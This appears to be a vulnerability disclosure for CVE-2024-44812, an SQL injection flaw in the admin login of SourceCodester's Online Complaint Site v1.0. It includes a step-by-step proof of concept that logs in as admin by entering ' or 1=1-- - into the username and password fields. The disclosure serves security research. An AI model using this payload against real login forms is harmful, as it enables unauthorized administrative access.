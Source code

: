 # Vendor
SourceCodester

# Affected Product Link
https://www.sourcecodester.com/php/14717/online-complaint-site-using-phpmysqli-full-source-code.html

# CVE ID: CVE-2024-44812

# Description:
SQL Injection vulnerability in Online Complaint Site v.1.0 allows a remote attacker to escalate privileges via the username and password parameters in the /admin.index.php component.

# PoC
Proof of Concept Exploit for CVE-2024-44812 - SQL Injection Authentication Bypass vulnerability in Online Complaint Site v1.0

```
Step 1 – Visit http://localhost/complaintsite/
Step 2 – Click on "admin" button and redirect on login page.
Step 3 – Enter username as ' or 1=1-- - and password as ' or 1=1-- -
Step 4 – Click Login and now you will be logged in as admin.
```

